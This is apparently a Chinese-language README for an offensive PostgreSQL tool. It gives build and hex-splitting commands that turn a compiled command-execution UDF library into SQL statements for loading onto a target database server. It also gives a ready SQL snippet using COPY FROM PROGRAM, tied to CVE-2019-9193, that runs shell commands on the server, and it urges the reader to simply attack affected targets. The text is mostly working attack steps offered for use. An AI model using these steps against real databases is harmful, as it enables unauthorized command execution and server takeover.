


# 使用

以 PostgreSQL 11.12 为例

```bash
# 找相应的 dev 扩展包
apt-get search postgresql-server-dev
# 安装 dev 扩展包
apt-get install postgresql-server-dev-11

# 编译好 .so 文件
git clone https://github.com/No-Github/postgresql_udf_help
cd postgresql_udf_help
gcc -Wall -I/usr/include/postgresql/11/server -Os -shared lib_postgresqludf_sys.c -fPIC -o lib_postgresqludf_sys.so
strip -sx lib_postgresqludf_sys.so

# 生成分片后的sql语句
cat lib_postgresqludf_sys.so | xxd -ps | tr -d "\n" > 1.txt
python2 postgresql_udf_help.py 1.txt > sqlcmd.txt
```

效果



当然你要是嫌麻烦,可以看目标是否受 CVE-2019-9193 影响,直接打就是了
```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```



## 参考
- https://github.com/sqlmapproject/udfhack
- [渗透中利用postgresql getshell](https://jianfensec.com/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95/%E6%B8%97%E9%80%8F%E4%B8%AD%E5%88%A9%E7%94%A8postgresql%20getshell/)
